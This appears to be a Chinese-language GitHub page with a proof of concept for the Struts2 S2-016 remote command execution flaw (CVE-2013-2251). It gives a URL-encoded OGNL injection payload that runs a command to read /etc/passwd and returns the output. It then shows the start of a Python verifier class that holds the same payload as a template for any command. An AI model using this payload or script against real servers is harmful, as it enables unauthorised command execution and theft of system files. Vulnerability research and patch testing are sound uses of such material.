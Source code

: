 #### 读取文件

```java
?redirect%3A%24%7B%23a%3D(new%20java.lang.ProcessBuilder(new%20java.lang.String%5B%5D%20%7B%22cat%22%2C%22/etc/passwd%22%7D)).start()%2C%23b%3D%23a.getInputStream()%2C%23c%3Dnew%20java.io.InputStreamReader%20(%23b)%2C%23d%3Dnew%20java.io.BufferedReader(%23c)%2C%23e%3Dnew%20char%5B50000%5D%2C%23d.read(%23e)%2C%23matt%3D%20%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse')%2C%23matt.getWriter().println%20(%23e)%2C%23matt.getWriter().flush()%2C%23matt.getWriter().close()%7D
```

### POC

```python
#!/usr/bin/env python3

import shlex
import random
import string
import urllib
import requests

class S2_016_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'Struts2 S2-016漏洞,又名CVE-2013-2251漏洞',
            'description': 'Struts2 S2-016漏洞可执行任意命令,影响范围为: Struts 2.0.0 - Struts 2.3.15',
            'date': '2013-06-03',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        if '.action' not in self.url:
            self.url = self.url + '/index.action'
        self.capta = self.get_capta() 
        self.headers = {
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
            'Content-Type': "application/x-www-form-urlencoded",
            'Connection': "keep-alive",
        }
        self.payload = '''?redirect%3A%24%7B%23a%3D(new%20java.lang.ProcessBuilder(new%20java.lang.String%5B%5D%20%7B{cmd}%7D)).start()%2C%23b%3D%23a.getInputStream()%2C%23c%3Dnew%20java.io.InputStreamReader%20(%23b)%2C%23d%3Dnew%20java.io.BufferedReader(%23c)%2C%23e%3Dnew%20char%5B50000%5D%2C%23d.read(%23e)%2C%23matt%3D%20%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse')%2C%23matt.getWriter().println%20(%23e)%2C%23matt.getWriter().flush()%2C%23matt.getWriter().close()%7D'''
   
    def get_capta(self):
        
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """

        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta
    
```